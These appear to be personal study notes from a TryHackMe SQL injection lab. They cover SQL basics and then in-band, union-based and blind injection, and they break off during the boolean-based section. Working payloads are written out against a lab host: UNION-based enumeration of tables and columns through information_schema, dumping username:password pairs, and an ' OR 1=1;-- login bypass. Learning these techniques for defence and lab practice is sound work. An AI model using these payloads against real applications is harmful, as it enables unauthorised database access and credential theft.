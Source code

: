 b bAttack on a web application database server that causes malicious queries to be executed.

A Database is a way of electronically **storing collections of data in an organised manner**, a database is controlled by a **DBMS**, which is an acronym for **Database Management System**.

DBMS fall into two camps, **Relational and Non-Rational**

![[Pasted image 20240503235128.png]]

**Tables** are made up of columns and rows, with each cell having the actual data, each column, better referred to as a **field** has a unique name per table.

When creating a column, you also set the type of data it will contain, integers, strings or dates.

Setting the data type also ensures that incorrect infromation **isn't stored**.

A **key** field has to be **unique for every row of data**.

A **relational database** stores information in tables, and often, the tables share information between them, the tables will often contain a column t hat has a **unique ID(primary key)**, which will then b e used in other tables to reference it.

**Non-relational databases**, sometimes called **NoSQL**, are any sort of database taht don't use tables, columns and rows to store data, MongoDB, Cassandra...

### SQL Commands

**SELECT**
Retrieves data from the database

```sql
SELECT * from users;
```

`SELECT` tells the database we want to retrieve some data, `*` tells the database we want to receive back all columns from the table(id, username, password)

```sql
SELECT username, password from users;
```

This will only return username and password.

```SQL
SELECT * from users LIMIT 1;
```

`LIMIT 1` forces the database to return only one row of data.

```SQL
SELECT * from users where username='admin';
```

This is how we can finely pick out the exact data we require by returning data that matches our specific clauses

```sql
SELECT * from users where username='admin' or username='jon';
```

This will only return the rows where the usernaem is either equal to **admin** or **jon**

```SQL
SELECT * from users where username='admin' and password='p4ssword';
```

This will only return the rows where the username is either equal to **admin** and the password is equal to **p4ssword**

Using the `like` clause allows you to **specify data** that isn't an exact match but insteat either starts, contains or ends with certain characters by choosing where to place the wildcard character respresented by a `%`

```SQL
SELECT * from users where username like 'a%';
```

This returns any rows with a username bewginning with a letter a

```SQL
SELECT * from users where username like '%n';
```

This returns any rows with a username ending with the letter n

```sql
SELECT * from users where username like '%mi%';
```

Returns any rows with a username containing the characters **mi** within them

### UNION

The `UNION` statement combines the results of two or more `SELECT` statements to retrieve data from either a single or multiple tables.

The rules to this query are that the `UNION` statement must retrieve t he same number of columns in each `SELECT` statement, the columns have to be of similar data type, and the column order has to be the same.

```SQL
SELECT name, address, city, postcode from customers UNION SELECT company, address, city, postcode from suppliers;
```

### INSERT

Inserts a new row of data into the table

```SQL
INSERT into users (username, password) values ('bob', 'password123');
```

### UPDATE

Updates one or more rows of data within a table.

```SQL
UPDATE users SET username='root', password='pass123' where username='admin';
```

### DELETE

Straightforward, this will remove the entire row where **username = 'martin'**
```SQL
DELETE from users where username='martin';
```

```sql
DELETE from users
```

### In-Band SQL Injection

Refers to the same method of communication being used to exploit the vulnerability and also receive the results.

**Error-Based SQL Injection**
Most useful for easily obtaining information about the database structure, as error messages from the database are printed directly into the browser screen, user to **enumerate a whole database**

**Union-Based SQL Injection**
Utilises the `UNION` operator alongside a `SELECT` statement to return additional results to the page, most common way of extracting large amounts of data via an SQL Injection Vulnerability.


### Practical

The key to discovering err-rbased SQL Injection is to break the code's SQL query by trying certain characters until an error message is produced.

For example, typing a `'` after the url

```
https://website.thm/article?id=1'
```

However if we try

``` 
https://website.thm/article?id=1 UNION SELECT 1
// SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns

https://website.thm/article?id=1 UNION SELECT 1, 2
// SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns

https://website.thm/article?id=1 UNION SELECT 1, 2, 3
// Expected behavior
```

The article is displayed because it takes the first resulted result somewhere in the website's code and shows that, to get around that, we need the first query to produce no results.

```
https://website.thm/article?id=0 UNION SELECT 1,2,3
```

Our next query will gather a list of tables that are in this database

```
https://website.thm/article?id=0 UNION SELECT 1,2, database()
```

The database is **sqli_one**

``` SQL
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

The `group_concat()` gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas.

`information_schema` database, every user has access to this, and it contains information about **all the databases and tables** the user has access to.

We're interested in listing all the tables in the **sqli_one** database, which is article and staff_users

```SQL
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

However the information we want to retrieve has changed from `table_name` to `column_name`
 the table we are querying in the information_schema database has changed from tables to columns.

```SQL
https://website.thm/article?id=0 UNION SELECT 1,2, group_concat(username, ':', password SEPARATOR '<br>') FROM staff_users
```

We've added `':'` to split the username and password from each other.

### Blind SQLi

Blind SQLi is when we get **little to no feedback** to confirm our injected queries were, in fact, successful or not.

**Autentication Bypass**
Login forms that are connected to a database of users are often developed in such a way that the webapp isn't interested in the content , but more in whether the **two make a matching pair in the users table.**

**Practical**

We can see that the SQL query is this one

```sql
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

To make this into a query that always returns true, we can enter the following:

```sql
' OR 1=1;--
```

Which turns into this SQL statement

```sql
select * from users where username='' and password='' OR 1=1;
```

Because 1=1 is a **true statement** and we've used an OR operator, this will always cause the query to return as true.

### BLind SQLi - Boolean Based

Boolean-based SQL Injection refers to the response we receive from our injection attempts, which is a boolean (successful or not)

``https://website.thm/checkuser?username=admin``

The browser body contains ``{"taken":true}``, this API endpoint replicates a common feature found on many signup forms, which **checks whether a username has already been registered to prompt the user to choose a different username**

```sql
select * from users where username = '%username%' LIMIT 1;
```


https://medium.com/@Aircon/sql-injection-tryhackme-thm-f712548fc198

